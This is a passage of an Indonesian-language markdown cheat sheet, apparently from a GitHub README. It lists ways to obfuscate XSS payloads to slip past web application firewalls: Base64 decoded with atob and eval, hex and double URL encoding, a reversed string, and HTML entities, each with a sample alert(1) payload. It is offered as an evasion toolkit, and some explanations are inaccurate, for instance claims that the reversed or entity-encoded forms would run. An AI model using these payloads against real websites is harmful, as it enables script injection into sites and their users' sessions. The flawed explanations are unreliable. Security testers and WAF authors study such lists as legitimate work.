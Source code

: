 ✅ **Teknik:** Mengubah `<script>` menjadi bentuk Unicode (`&#x3C;`) untuk menghindari filter reguler.  

---

### **2️⃣ Base64 Obfuscation**  
Mengubah payload ke format Base64 agar WAF tidak langsung mengenali pola berbahaya.  
```html
<SCRIPT>eval(atob('YWxlcnQoMSk7'))</SCRIPT>
```

✅ **Teknik:** `atob()` digunakan untuk mendekodekan string Base64 sehingga WAF tidak mengenali `alert(1)`.  

---

### **3️⃣ Hex Encoding**  
Payload dikonversi ke format Hex untuk menyembunyikan karakter aslinya.  
```html
%3Cscript%3Ealert(1)%3C%2Fscript%3E
```

✅ **Teknik:** Menggunakan karakter Hex `%3C` untuk menggantikan `<`, membuat payload sulit dikenali.  

---

### **4️⃣ Double URL Encoding**  
Menggunakan URL encoding dua kali untuk menyamarkan payload.  
```html
%253Cscript%253Ealert(1)%253C%252Fscript%253E
```

✅ **Teknik:** `%25` adalah encoding untuk `%`, membuat karakter lain dienkode ulang.  

---

### **5️⃣ Reverse String Payload**  
Membalik string payload sehingga sulit dicocokkan dengan signature WAF.  
```html
>tpircs/<)1(trela>tpircs<
```

✅ **Teknik:** Payload harus dibalik kembali sebelum dieksekusi agar bisa dijalankan.  

---

### **6️⃣ HTML Entity Encoding**  
Menggunakan karakter HTML entity untuk menyembunyikan script.  
```html
&lt;script&gt;alert(1)&lt;/script&gt;
```

✅ **Teknik:** `&lt;` adalah `&` untuk `<`, membuat filter regex kesulitan mendeteksi script ini.  

---
